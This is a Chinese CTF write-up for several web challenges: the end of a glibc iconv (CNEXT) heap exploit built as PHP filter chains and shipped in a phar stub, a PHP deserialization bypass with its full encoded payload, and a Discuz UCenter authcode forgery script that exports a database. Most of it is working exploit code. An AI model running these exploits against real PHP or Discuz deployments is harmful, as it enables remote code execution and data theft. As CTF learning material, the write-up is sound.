305
306 pages = (
307 step4 * 3
308 + step4_pwn
309 + step4_custom_heap
310 + step4_use_custom_heap
311 + step3_overflow
312 + pad * PAD
313 + step1 * 3
314 + step2_write_ptr
315 + step2 * 2
316 )
317
318 resource = compress(compress(pages))
319 resource = b64(resource)
320 resource = f"data:text/plain;base64,{resource.decode()}"
321
322 filters = [
323 # Create buckets
324 "zlib.inflate",
325 "zlib.inflate",
326
327 # Step 0: Setup heap
328 "dechunk",
329 "convert.iconv.latin1.latin1",
330
331 # Step 1: Reverse FL order
332 "dechunk",
333 "convert.iconv.latin1.latin1",
334
335 # Step 2: Put fake pointer and make FL order back to normal
336 "dechunk",
337 "convert.iconv.latin1.latin1",
338
339 # Step 3: Trigger overflow
340 "dechunk",
341 "convert.iconv.UTF-8.ISO-2022-CN-EXT",
342
343 # Step 4: Allocate at arbitrary address and change zend_mm_heap
344 "convert.quoted-printable-decode",
345 "convert.iconv.latin1.latin1",
346 ]
347 filters = "|".join(filters)
348 path = f"php://filter/read={filters}/resource={resource}"
349 # print(path)
350 return path
351
352def exploit() -> None:
353 path = build_exploit_path()
354 start = time.time()
355 print(path)
356
357get_symbols_and_addresses()
358print(info)
359exploit()

一开始想着直接include打就行了，但是发现不行，在这里卡了很久。找了一圈看看有没有其他能打cnext的函数，太菜了没找到，所以又回到include了。
环境没开报错，所以本地开个环境看看怎么回事。可以看到由于allow_url_include为Off，所以include里面没办法使用data://

那这样就好办了，我们不用data://就好了，data在这个payload里面的作用是base64解码，那我们直接用php://filter解码不就好了。我们可以直接把base64的内容写到文件中，接着用php://filter读取并解码
最终Payload
1<?php
2$phar = new Phar('exploit.phar');
3$phar->startBuffering();
4
5$stub = <<< 'STUB'
6<?php
7 file_put_contents("/tmp/base","e3vXsO+NiwDbg77XJm8l3/eoFzDYhCk95hLbst6xicNClfP7glt/ORo4MidWvHof/FL/+7r0Y/OyfF9FMTLgBTMObZIp3Hr76quIq9Fvtk7b6brJEb8GBrWNOu4xb8u2WoV9Fatem5o3MUcAv4YGT53TguG7Y9f2he49Gpc9M1pFmgW/jmVF8dt2RO2Nkl0d9Vv4QfXdV8+b+dev37ZX7/f20vtyv3/dmv/+/1V236DXU/ed51/lUSdHwMk/9ldfefE2Vzp3zTXdb+l35c//vbwtf31t7dvz3/dei4tPvfvd//v+/3vn//93/rPyz2n4g+xB/M7/FbYNf/49/srw6Td/8lfn3r+V9+Xvv+nfHnd+1/1XdfHffl//++Dj138Vsf//LtPPn//t92uriO/bb2XXvn396+eT27//7Yl9v/lNf2m9zTpxvb+Kz//a7v/7eY77/+R5N/vnz9ful7/970x47S6713/19c9/l+93CPf6u1XpZyUzgbg8timncGsVMGa2us28+X7/P5mT3wiETIJF/4kI46jXG11nuqh8Zh9VPKp4VDGdFc+4F5R9pmT36R23r2d4T/HYRqDEPvBlWlTystuxx+7uc4te5LKJl0AWX7b9ipTx3XdG776Z3hJSnZRLQLnB2qV5hVul4i+l7n/61O2nwP3p9+t+vlsepHSojIDOGdeCtu+I6tV/uel+1hR+McFtBIqrA1um7Tp6NavGc/rfsMU1Gzp+MAMA");
8 include("php://filter/read=convert.base64-decode|zlib.inflate|zlib.inflate|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.UTF-8.ISO-2022-CN-EXT|convert.quoted-printable-decode|convert.iconv.latin1.latin1/resource=/tmp/base");
9 __HALT_COMPILER();
10?>
11STUB;
12
13$phar->setStub($stub);
14
15$phar->addFromString('test.txt', 'test');
16
17$phar->stopBuffering();
18?>
拿到flag

Your Uns3r
题目
1<?php
2highlight_file(__FILE__);
3class User
4{
5 public $username;
6 public $value;
7 public function exec()
8 {
9 $ser = unserialize(serialize(unserialize($this->value)));
10 if ($ser != $this->value && $ser instanceof Access) {
11 include($ser->getToken());
12 }
13 }
14 public function __destruct()
15 {
16 if ($this->username == "admin") {
17 $this->exec();
18 }
19 }
20}
21
22class Access
23{
24 protected $prefix;
25 protected $suffix;
26
27 public function getToken()
28 {
29 if (!is_string($this->prefix) || !is_string($this->suffix)) {
30 throw new Exception("Go to HELL!");
31 }
32 $result = $this->prefix . 'lilctf' . $this->suffix;
33 if (strpos($result, 'pearcmd') !== false) {
34 throw new Exception("Can I have peachcmd?");
35 }
36 return $result;
37
38 }
39}
40
41$ser = $_POST["user"];
42if (strpos($ser, 'admin') !== false && strpos($ser, 'Access":') !== false) {
43 exit ("no way!!!!");
44}
45
46$user = unserialize($ser);
47throw new Exception("nonono!!!");
EXP
1<?php
2// highlight_file(__FILE__);
3class User
4{
5 public $username;
6 public $value;
7}
8
9class Access
10{
11 protected $prefix = 'php://filter/read=convert.base64-encode/resource=';
12 protected $suffix = '/../../../../../flag';
13
14}
15
16$exp = new User();
17$exp -> username = 'admin';
18$access = new Access();
19$exp -> value = serialize($access);
20
21$exp = serialize($exp);
22$exp = str_replace("s:5:\"admin","S:5:\"admi\\6e",$exp);
23$exp = str_replace("Access","ACcess",$exp);
24
25echo urlencode($exp);
26
27//O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3BS%3A5%3A%22admi%5C6e%22%3Bs%3A5%3A%22value%22%3Bs%3A134%3A%22O%3A6%3A%22ACcess%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00prefix%22%3Bs%3A49%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3D%22%3Bs%3A9%3A%22%00%2A%00suffix%22%3Bs%3A20%3A%22%2F..%2F..%2F..%2F..%2F..%2Fflag%22%3B%7D%22%3B%7D
类名可以用大小写绕过，变量名可以用hex绕过
最后删除最后一个括号来绕过gc回收
Payload
1user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3BS%3A5%3A%22admi%5C6e%22%3Bs%3A5%3A%22value%22%3Bs%3A134%3A%22O%3A6%3A%22ACcess%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00prefix%22%3Bs%3A49%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3D%22%3Bs%3A9%3A%22%00%2A%00suffix%22%3Bs%3A20%3A%22%2F..%2F..%2F..%2F..%2F..%2Fflag%22%3B%7D%22%3B

我曾有一份工作
扫目录扫到 /www.zip
拿到源码之后先用Seay扫一下可能存在风险的位置
想着先找前台洞，所以先找没有鉴权的

看到这个/uc_server/api/dbbak.php，想起来题目提到数据库和备份，感觉应该是找对了
这是一个数据库备份的脚本，可以对数据库进行导入导出之类的操作，题目说flag在pre_a_flag 表，那我们只需要把数据库导出来就好了，看看流程。

首先接受两个传参，code和apptype

接着会根据apptype导入不同的配置文件，配置文件里面会有数据库连接信息，密钥等信息

而code会通过_authcode函数进行解密，解出数组get。然后判断数据get是否为空且里面的time是否在一小时之内

根据不同的apptype连接不同的数据库，并根据get数组里面的method进行对应的操作，我们这里只需要export导出数据库就行了

流程走完，写个脚本生成一下code
POC
1import base64
2import hashlib
3import time
4import urllib.parse
5
6UC_KEY = "N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb"
7TARGET = "http://challenge.xinshi.fun:31430/uc_server/api/dbbak.php?apptype=discuzx&"
8
9def authcode(string, operation='DECODE', key=UC_KEY, expiry=0):
10 ckey_length = 4
11 key = hashlib.md5(key.encode()).hexdigest()
12 keya = hashlib.md5(key[:16].encode()).hexdigest()
13 keyb = hashlib.md5(key[16:].encode()).hexdigest()
14 if ckey_length:
15 if operation == 'DECODE':
16 keyc = string[:ckey_length]
17 else:
18 keyc = hashlib.md5(str(time.time()).encode()).hexdigest()[-ckey_length:]
19 else:
20 keyc = ''
21 cryptkey = keya + hashlib.md5((keya + keyc).encode()).hexdigest()
22 key_length = len(cryptkey)
23
24 if operation == 'DECODE':
25 string = base64.b64decode(string[ckey_length:].encode())
26 else:
27 expiry_time = expiry + int(time.time()) if expiry else 0
28 string = ('%010d' % expiry_time).encode() + \
29 hashlib.md5((string + keyb).encode()).hexdigest()[:16].encode() + \
30 string.encode()
31
32 box = list(range(256))
33 rndkey = [ord(cryptkey[i % key_length]) for i in range(256)]
34 j = 0
35 for i in range(256):
36 j = (j + box[i] + rndkey[i]) % 256
37 box[i], box[j] = box[j], box[i]
38
39 result = bytearray()
40 a = j = 0
41 for byte in string:
42 a = (a + 1) % 256
43 j = (j + box[a]) % 256
44 box[a], box[j] = box[j], box[a]
45 result.append(byte ^ box[(box[a] + box[j]) % 256])
46
47 if operation == 'DECODE':
48 result = result.decode(errors='ignore')
49 if (len(result) > 26 and
50 (int(result[:10]) == 0 or int(result[:10]) - int(time.time()) > 0) and
51 result[10:26] == hashlib.md5((result[26:] + keyb).encode()).hexdigest()[:16]):
52 return result[26:]
53 else:
54 return ''
55 else:
56 return keyc + base64.b64encode(result).decode().replace('=', '')
57
58
59def build_code(params: dict, expiry=3600) -> str:
60 # 构造 query string
61 query = urllib.parse.urlencode(params, doseq=True)
62 return authcode(query, 'ENCODE', UC_KEY, expiry)
63
64
65if __name__ == "__main__":
66 # 构造 payload
67 payload = {
68 "method": "export",
69 "time": int(time.time())
70 }
71
72 # 生成 code，有效期 1 小时
73 code = build_code(payload, expiry=3600)
74 print("[*] code =", code)
75
76 # 拼接最终 URL
77 url = f"{TARGET}code={urllib.parse.quote(code)}"
78 print("[*] Final URL:\n", url)
下载导出的数据库


找到hex的flag